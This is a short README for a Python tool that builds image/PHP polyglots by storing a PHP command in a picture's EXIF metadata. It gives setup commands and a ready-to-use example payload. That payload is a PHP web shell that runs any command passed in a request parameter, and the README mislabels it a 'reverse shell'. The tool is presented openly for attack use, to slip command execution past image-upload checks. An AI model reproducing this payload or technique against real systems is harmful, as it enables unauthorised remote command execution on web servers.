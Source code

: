 # Polyglot-Generator
First Polyglot Generator written in python (image file + php command)
* The PHP command is stored within the image’s EXIF metadata.

# Requierments
- Python 3
- PIL module (PIP)
- Image file
- php reverse shell command

# Set Up
Install PIL module
$ pip install Pillow piexif

Run the file
$ python3 polyglotGenerator.py

Example of the PHP reverse shell command that can used
$ <?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; } __HALT_COMPILER();?>


